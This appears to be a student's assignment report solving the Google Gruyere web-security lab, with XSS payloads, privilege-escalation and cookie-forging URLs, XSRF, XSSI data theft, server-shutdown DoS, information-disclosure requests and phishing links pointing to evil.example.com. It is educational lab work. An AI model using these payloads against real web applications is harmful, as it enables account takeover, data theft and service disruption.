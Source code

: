 # Assignment 4 Report

Write your exploit (i.e. attack code) under each heading below.

## File Upload XSS

index.html
```js
<script>alert('hello world')</script>
```

## Reflected XSS

```shell
https://google-gruyere.appspot.com/572638720274820579346510292590698872448/%3Cscript%3Ealert('hello%20world')%3C/script%3E
```

## Stored XSS

```html
<a onmouseover="alert('hello world')">Click here!</a>
```

## Stored XSS via HTML Attribute

```
blue' onmouseover="alert('hello world')"
```

## Stored XSS via AJAX

```
start <span style=display:none>"
+ alert('hello world')
+ "</span>end
```

## Reflected XSS via AJAX

```shell
https://google-gruyere.appspot.com/572638720274820579346510292590698872448/feed.gtl?uid=%3Cscript%3Ealert(%27hello%20world%27)%3C/script%3E
```

## Elevation of Privilege

```shell
https://google-gruyere.appspot.com/572638720274820579346510292590698872448/saveprofile?action=update&is_admin=True&uid=siddy
```

## Cookie Manipulation

```shell
https://google-gruyere.appspot.com/572638720274820579346510292590698872448/saveprofile?action=new&uid=administrator|admin|author&pw=password
```

## XSRF Challenge

```shell
https://google-gruyere.appspot.com/572638720274820579346510292590698872448/deletesnippet?index=0
```

## XSSI Challenge

```html
<!DOCTYPE html>
<html>
  <body>
      <script>
      function _feed(data) {
        alert('Private Snippet: ' + data['private_snippet']);
      }
    </script>
    <script src="https://google-gruyere.appspot.com/572638720274820579346510292590698872448/feed.gtl"></script>
  </body>
</html>
```

## Information disclosure via path traversal

Just read through this challenge. No need to submit a solution. AppEngine automatically "simplifies" the URL with a 302 redirect, which breaks the attack.

## Data tampering via path traversal

Just read through this challenge. No need to submit a solution. AppEngine automatically "simplifies" the URL with a 302 redirect, which breaks the attack.

## DoS - Quit the Server

```shell
https://google-gruyere.appspot.com/572638720274820579346510292590698872448/quitserver
```

## DoS - Overloading the Server

Just read through this challenge. No need to submit a solution. AppEngine doesn't seem vulnerable to path traversal which breaks the attack.

## Code Execution Challenge

```python
print('hello world')
```

## Information disclosure #1

```shell
https://google-gruyere.appspot.com/572638720274820579346510292590698872448/dump.gtl
```

## Information disclosure #2

```shell
curl 'https://google-gruyere.appspot.com/572638720274820579346510292590698872448/upload2' \
  -H 'authority: google-gruyere.appspot.com' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'cache-control: no-cache' \
  -H 'content-type: multipart/form-data; boundary=----WebKitFormBoundaryDTIE1lBG8TPUXl0V' \
  -H 'cookie: GRUYERE=43221276|siddy||author' \
  -H 'origin: https://google-gruyere.appspot.com' \
  -H 'pragma: no-cache' \
  -H 'referer: https://google-gruyere.appspot.com/572638720274820579346510292590698872448/upload.gtl' \
  -H 'sec-ch-ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"' \
  -H 'sec-ch-ua-arch: "arm"' \
  -H 'sec-ch-ua-bitness: "64"' \
  -H 'sec-ch-ua-full-version-list: "Chromium";v="118.0.5993.88", "Google Chrome";v="118.0.5993.88", "Not=A?Brand";v="99.0.0.0"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-model: ""' \
  -H 'sec-ch-ua-platform: "macOS"' \
  -H 'sec-ch-ua-platform-version: "14.0.0"' \
  -H 'sec-ch-ua-wow64: ?0' \
  -H 'sec-fetch-dest: document' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-site: same-origin' \
  -H 'sec-fetch-user: ?1' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36' \
  --data-raw $'------WebKitFormBoundaryDTIE1lBG8TPUXl0V\r\nContent-Disposition: form-data; name="upload_file"; filename="dump.gtl"\r\nContent-Type: application/octet-stream\r\n\r\n\r\n------WebKitFormBoundaryDTIE1lBG8TPUXl0V--\r\n' \
  --compressed
```

## Information disclosure #3

```shell
https://google-gruyere.appspot.com/572638720274820579346510292590698872448/newsnippet2?snippet=%7B%7B_db%3Apprint%7D%7D%0D%0A'
```

## DoS via AJAX

```shell
curl 'https://google-gruyere.appspot.com/572638720274820579346510292590698872448/newsnippet2?snippet=hello+world' \
  -H 'authority: google-gruyere.appspot.com' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'cache-control: no-cache' \
  -H 'cookie: GRUYERE=82862944|private_snippet||author' \
  -H 'pragma: no-cache' \
  -H 'referer: https://google-gruyere.appspot.com/572638720274820579346510292590698872448/newsnippet.gtl' \
  -H 'sec-ch-ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"' \
  -H 'sec-ch-ua-arch: "arm"' \
  -H 'sec-ch-ua-bitness: "64"' \
  -H 'sec-ch-ua-full-version-list: "Chromium";v="118.0.5993.88", "Google Chrome";v="118.0.5993.88", "Not=A?Brand";v="99.0.0.0"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-model: ""' \
  -H 'sec-ch-ua-platform: "macOS"' \
  -H 'sec-ch-ua-platform-version: "14.0.0"' \
  -H 'sec-ch-ua-wow64: ?0' \
  -H 'sec-fetch-dest: document' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-site: same-origin' \
  -H 'sec-fetch-user: ?1' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36' \
  --compressed
```

## Phishing via AJAX

```shell
curl 'https://google-gruyere.appspot.com/572638720274820579346510292590698872448/newsnippet2?snippet=%3Ca+href%3D%27https%3A%2F%2Fevil.example.com%2Flogin%27%3ESign+in%3C%2Fa%3E+%7C+%3Ca+href%3D%27https%3A%2F%2Fevil.example.com%2Fnewaccount.gtl%27%3ESign+up%3C%2Fa%3E' \
  -H 'authority: google-gruyere.appspot.com' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'cache-control: no-cache' \
  -H 'cookie: GRUYERE=96645424|menu-right||author' \
  -H 'pragma: no-cache' \
  -H 'referer: https://google-gruyere.appspot.com/572638720274820579346510292590698872448/newsnippet.gtl' \
  -H 'sec-ch-ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"' \
  -H 'sec-ch-ua-arch: "arm"' \
  -H 'sec-ch-ua-bitness: "64"' \
  -H 'sec-ch-ua-full-version-list: "Chromium";v="118.0.5993.88", "Google Chrome";v="118.0.5993.88", "Not=A?Brand";v="99.0.0.0"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-model: ""' \
  -H 'sec-ch-ua-platform: "macOS"' \
  -H 'sec-ch-ua-platform-version: "14.0.0"' \
  -H 'sec-ch-ua-wow64: ?0' \
  -H 'sec-fetch-dest: document' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-site: same-origin' \
  -H 'sec-fetch-user: ?1' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36' \
  --compressed
```
